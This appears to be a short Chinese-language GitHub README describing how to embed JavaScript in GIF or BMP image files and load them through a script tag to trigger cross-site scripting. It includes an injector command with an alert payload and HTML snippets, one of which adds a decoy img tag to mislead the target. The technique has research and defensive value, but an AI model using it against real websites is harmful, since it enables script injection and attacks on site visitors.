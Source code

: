 # Hide Javascript inside image file

在图片中隐藏有效的js代码，然后再页面中执行该图片，可以触发xss漏洞，这种方式触发xss,其js是按图片类型传输的，而不是按js类型传输，如下图：

![](google.png)

## GIF 植入 js payload

运行: `python GIF_injector.py gif_xss.gif 'alert("xss with gif");'`

生成gif_xss.gif文件，包含xss payload

html页面中引入图片，执行js代码，参考如下:

```html
<html>
<head>
    <title>XSS Injectn into an image</title>
</head>
<body>
    <script src="gif_xss.gif"></script>
</body>
</html>
```

还可以加入`img`标签，迷惑对方

```
<html>
<head>
    <title>XSS Injectn into an image</title>
</head>
<body>
    <img src='git_xss.gif'></img>
    <script src="gif_xss.gif"></script>
</body>
</html>
```

safari 触发xss结果如下图:

![](safari.png)

## BMP 植入 js payload

方式同上

## [github imagejs](javascript into a valid image file)

from [javascript into a valid image file](javascript into a valid image file),

支持输出文件: gif, bmp, webp, pnm, pgf
